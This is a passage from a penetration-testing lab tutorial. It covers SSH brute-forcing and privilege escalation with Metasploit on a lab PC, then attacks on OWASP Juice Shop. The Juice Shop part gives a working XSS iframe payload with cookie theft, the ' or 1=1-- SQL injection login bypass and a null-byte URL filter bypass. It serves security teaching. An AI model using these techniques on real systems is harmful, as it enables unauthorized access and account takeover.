  
\includegraphics{./Images/Image02.png}
  You will notice a Login Check scanner, in other words, a login
  bruteforcer for ssh. This is the module we will use.
\end{enumerate}

\subsubsection{SSH Bruteforce second
part}\label{ssh-bruteforce-second-part}

Let use the \texttt{auxiliary/scanner/ssh/ssh\_login} module and read
its options. We will set the following as so:

\begin{itemize}
\tightlist
\item
  \texttt{RHOSTS} : \texttt{192.168.1.2} --\textgreater{} IP address of
  PC1
\item
  \texttt{THREADS} : \texttt{10} --\textgreater{} to allow faster
  scanning
\item
  \texttt{USER\_FILE}: \texttt{usernames.txt} --\textgreater{} the
  usernames we found
\item
  \texttt{USER\_AS\_PASS}: \texttt{true} --\textgreater{} to check if
  usernames are used as passwords
\end{itemize}

After few minutes, you will normally have at least 3 sessions opened,
you can see which accounts are using the same username as a password too
\texttt{{[}+{]}\ 192.168.1.2:22\ -\ Success:\ \textquotesingle{}\textless{}username\textgreater{}:\textless{}password\textgreater{}\textquotesingle{}}.

To check if the connections are established, you need to run
\texttt{sessions\ -i}:


\includegraphics{./Images/Image03.png}

From the result of the module \texttt{ssh\_login}, we can read that the
user \texttt{msfadmin} seems to be the one in the more groups.
Therefore, let's use his session and try to upgrade our shell, get root
access and more.

\subsection{Delivery}\label{delivery}

Since we have established connection with PC1, we will deliver a payload
using metasploit. Metasploit is a really powerful tool that we can use
for almost all the steps of the cyber kill chain. Therefore, since we
have an ssh connection to PC1, we will send a payload containing a very
versatile shell called \texttt{meterpreter}.

To upgrade our session into a meterpreter session, we will use the
following command
\texttt{sessions\ -u\ \textless{}sessionNumber\textgreater{}}. Using the
outputs of \texttt{ssh\_login}, we can see that \texttt{msfadmin}
session is established on the third session, therefore:


\includegraphics{./Images/Image04.png}

It has opened a forth session, with which we will enter using
\texttt{sessions\ -i\ 4} .

\subsection{Exploitation}\label{exploitation}

In the exploitation phase, we will try to get root access in order to
have full power on PC1.

Don't hesitate to run \texttt{help} command in the meterpreter session
in order to see all the possibilites of actions you can do. From
controlling the webcam, the microphone or even dumping the passwords,
the list of processes and many more, you might be only stopped because
you have not root access yet.

Run the following commands:

\begin{itemize}
\tightlist
\item
  \texttt{sysinfo}
\item
  \texttt{ipconfig}
\item
  \texttt{getenv}
\item
  \texttt{getuid}
\item
  \texttt{getlwd}
\item
  \texttt{dir\ /}
\end{itemize}

This allows us to gather a lot of information on the system and the user
! Let's use a post exploitation tool used for detecting possible
privilege escalation. Put the session in the background using
\texttt{background} command. Now, let's select the module
\texttt{use\ post/multi/recon/local\_exploit\_suggester} and set the
following parameter:

\begin{itemize}
\tightlist
\item
  \texttt{SESSION}: \texttt{4} --\textgreater{} we specify the session
  of the meterpreter on PC1
\end{itemize}

\newpage 

We start the exploit with \texttt{run} and wait few minutes. Normally,
if everything went well, you are supposed to have the following result:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\#   Name           Potentially Vulnerable?  Check Result}
\NormalTok{ {-}   {-}{-}{-}{-}          {-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}  {-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}}
\NormalTok{ 1   exploit/linux/local/apport\_abrt\_chroot\_priv\_esc                    Yes                      The service is running, but could not be validated. Could not determine Apport version. apport{-}cli is not installed or not in $PATH.}
\NormalTok{ 2   exploit/linux/local/glibc\_ld\_audit\_dso\_load\_priv\_esc               Yes                      The target appears to be vulnerable.}
\NormalTok{ 3   exploit/linux/local/glibc\_origin\_expansion\_priv\_esc                Yes                      The target appears to be vulnerable.}
\NormalTok{ 4   exploit/linux/local/su\_login                                       Yes                      The target appears to be vulnerable.}
\end{Highlighting}
\end{Shaded}

Therefore, we can have root session using at least 4 different exploit
to privilege escalation ! Although, we notice a very simple one
\texttt{su\_login}, which means that the user \texttt{msfadmin} have the
right to run \texttt{sudo\ -s} in order grant root access. Let's go back
to the session 4 and enter a shell using \texttt{shell} command:

Now, let's check the \texttt{sudo\ -s} command of the user:

\includegraphics{./Images/Image05.png}

Then, we need to upgrade our shell into a TTY using the command
\texttt{script\ -qc\ /bin/bash\ /dev/null}. If you are familiar with
linux, you will now notice that we are running a proper CLI into the
system:


\includegraphics{./Images/Image06.png}

Now that you have root access on the machine, us pentesters says that
you have pwned the machine, meaning that have compromised PC1.

\paragraph{Open Question}\label{open-question}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Since you have root access on the machine, list all the possibilities
  you could do on PC1.
\end{enumerate}

\newpage

\section{Scenario 2}\label{scenario-2}

In this scenario, our focus will be on exploiting vulnerabilities within
the Juice Shop web application. Juice Shop is intentionally designed to
be insecure, making it an excellent tool for beginners to delve into web
security. Described as ``Probably the most modern and sophisticated
insecure web application,'' Juice Shop provides a practical environment
for learning about web security challenges.

Contrary to the Scenario 1, our approach here is not to simulate an
external attacker Eve. Instead, let's consider that by gaining access
through web security penetration testing, we may replicate the actions
of Scenario 1 from the HTTP server itself. This approach allows us to
explore potential access points that might further facilitate scenarios
similar to the one depicted in the first scenario, all while maintaining
a level of disguise to avoid easy detection.

\newpage

Diagram of scenario 2:


\includegraphics{Images/Diagram2.png}
\newpage

\subsection{Initial Access}\label{initial-access}

In order to access the juice-shop website that we are hosting on the
docker container, we need to add the route to it using the following
command on the Host computer:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{sudo ip route add 192.168.3.0/24 via 192.168.4.10}
\end{Highlighting}
\end{Shaded}

This will allow us to access juice-shop using the following URL:
\url{http://192.168.3.12/\#/score-board}(If you dont have root access,
run docker in a virtual machine where you have the root access.)

If everything went well, you are supposed to land on this page


\includegraphics{Images/Image11.png}

Normally, Juice-shop would want you to scan the website in order to find
this score-board, but we find it more useful to the learning process to
know it's existence already. On this page, you can follow you
progression on all the challenges, some of them are even live explained
on the website itself!

If you want to read more about the OWASP juice-shop, we recommend you
this very detailed
\href{https://pwning.owasp-juice.shop/companion-guide/latest/}{Companion
guide}.

Navigate a bit on the \href{http://192.168.3.12}{main page} in order to
see how it behaves !

\subsection{Vulnerabilities}\label{vulnerabilities}

\subsubsection{DOM XSS}\label{dom-xss}

XSS stands for Cross-site scripting, it's basically when a user manage
to inject code on the webpage. Usually this can result into storing the
injected code on the server and running it also for the other users !

For this vulnerability, we talk about DOM-XSS, which is more rare
because it is a specific XSS vulnerability. It is important to note that
XSS is one of the most common vulnerability online. In this DOM-XSS, we
mention DOM, the Document Object Model, which is the file structure of
the stored webpages we visit. So the DOM-XSS attack that we will do will
be effective only for the web browser we are using, and won't spread to
other users for example.

When doing XSS attacks, the pentesters usually run a simple
\texttt{alert(\textquotesingle{}XSS\textquotesingle{})}, which will
produce a pop up on the browser. This is a proof of concept to show the
capability of the pentester to run any code on the server ! So this kind
of vulnerability need to be taken seriously.

\paragraph{Questions}\label{questions-3}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  What other name is given to DOM-XSS ?
\item
  In your opinion, which element of the webpage Juice-shop could we use
  for such attack ?
\item
  Find other script command then \texttt{alert()} in Javascript.
\end{enumerate}

\newpage

\paragraph{Answers}\label{answers-3}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  The other name given to DOM-XSS is type-0 XSS !
\item
  We should use the research bar of the website, but instead of
  products, we try to insert a \texttt{\textless{}script\textgreater{}}.
\item
  One important one is \texttt{document.cookie()}, which prints the
  cookie of the user running the command. It can be very useful for
  attackers in order to steal a user's session.
\end{enumerate}

Let's start as we mentioned in the answers at the search bar of the
website. We can try running simple queries like so:


\includegraphics[width=0.4\textwidth,height=0.4\textheight]{Images/Image12.png}

\includegraphics[width=0.6\textwidth,height=0.6\textheight]{Images/Image13.png}

But as you can see, we don't have any pop up, which means the server
might be filtering our banners of scripts. Another common XSS :
\texttt{\textless{}iframe\ src="javascript:alert(\textquotesingle{}xss\textquotesingle{})"\textgreater{}}.
Using \texttt{iframe} and changing the source to be javascript.
Therefore, we technically run scripts !


\includegraphics{Images/Image14.png}
\includegraphics[width=0.5\textwidth,height=0.5\textheight]{Images/Image15.png}

You just made an XSS injection ! Let's combine \texttt{alert()} with
\texttt{document.cookie} in order to ``steal'' our cookie:


\includegraphics[width=0.55\textwidth,height=0.55\textheight]{Images/Image16.png}

You don't have a cookie \texttt{token} ? That's maybe because you are
not logged in, let's do the next exercise about SQL Injection to solve
this issue.

\subsubsection{SQL Injection}\label{sql-injection}

As you may have noticed from exploring the website, you can login to an
account or create an account. Usually, this means that we have a backend
containing a database which is requested at each connection. If you look
at the market share, you might notice that SQL databases are the most
commons.

So when you test passwords and users combinations, you are very probably
requesting an SQL database. Therefore it is important to sanitize the
user inputs, because what could happen if you put SQL commands into the
user or password fields ? The answer is simple, an SQL injection,
meaning that you are extraction data from the database, inserting or
manipulation tables as you feel so.

One of the most common SQL injection is

\begin{Shaded}
\begin{Highlighting}[]
\StringTok{\textquotesingle{} or 1=1{-}{-}}
\end{Highlighting}
\end{Shaded}

This simple characters can allow you to connect as any users. Let's
visit the page \url{http://192.168.3.12/\#/about} , after reading few of
the customer feedback, we notice a pattern on some emails, they finish
on \texttt{\textless{}username\textgreater{}@juice-sh.op}. Maybe the
\texttt{admin} account is using an email like this ? Let's try an SQL
injection on \texttt{admin@juice-sh.op} :


\includegraphics{Images/Image17.png}


\includegraphics[width=0.7\textwidth,height=0.7\textheight]{Images/Image18.png}

As simple as that, we can have access to an admin account. The worst is
that you don't even need to specify the URL to get access to this
account, you can simply put \texttt{\textquotesingle{}\ or\ 1=1-\/-} and
a random password.

\subsubsection{Poison Null Byte}\label{poison-null-byte}

As mentioned in the Initial Access, juice-shop assumed that you scanned
the website and found all the related webpages. Unless you did that, you
should know that the web application is also hosting an old FTP server:
\url{http://192.168.3.12/ftp}.


\includegraphics[width=0.75\textwidth,height=0.75\textheight]{Images/Image19.png}

While navigating through the files and folder, you might notice that you
can't download all files:


\includegraphics{Images/Image20.png}

Usually, when we want to escape the filtering, we will use a Null Byte
\texttt{\%00} and add a proper extension like so
\url{http://192.168.3.12/ftp/coupons_2013.md.bak\%00.md}. But here,
instead of a 403, we get a 400, so it means we need to choose the second
option when it comes to Null Byte \texttt{\%2500}. We need to do
\texttt{\%25} in order encode the \texttt{\%} and so it will be URL
encoded and wont crash !


\includegraphics{Images/Image21.png}

